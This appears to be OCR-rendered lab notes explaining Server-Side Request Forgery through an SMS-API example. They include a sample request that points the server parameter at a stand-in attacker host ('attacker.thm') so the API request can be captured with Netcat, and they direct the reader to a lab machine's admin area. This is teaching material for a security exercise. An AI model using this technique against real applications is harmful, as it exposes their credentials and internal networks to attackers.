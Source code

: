 # Server-Side Request Forgery 

## Introduction 
Server-Side Request Forgery (SSRF) is a security vulnerability where attackers manipulate a web application into sending requests to different destinations using the application's own capabilities. 

## Key Points 
• SSRF vulnerabilities often emerge when web applications interact with third-party services. 

• For example, a web application might send SMS notifications using an external API, requiring an API key for authentication. 

• The vulnerability arises if the application allows users to manipulate the server parameter directing requests to the SMS provider. 

• An attacker could change the server value to point to their own machine, prompting the application to send requests to the attacker instead of the intended provider, allowing the attacker to control message sending at the expense of the original user. 

• The attacker could execute a simple request, like: 
`https://www. mysite.com/sms? server=attacker. thm&amp;msg=ABC` 

• This would redirect the web application to send a request to: 
`https://attacker. thm/api/send? msg=ABC` 

• Using tools like Netcat, the attacker can capture the contents of the request. 

• SSRF can allow attackers to do more than just send requests, including: 

• Enumerating internal networks and identifying IP addresses and ports. 

• Exploiting trust relationships between servers for restricted access. 

• Interacting with non-HTTP services, potentially leading to remote code execution (RCE). 

## Conclusion 
To better understand and exploit SSRF vulnerabilities, visit http://MACHINE_IP:8087/ and locate the admin area as a targeted objective. Follow the specific instructions provided to access restricted areas of the website.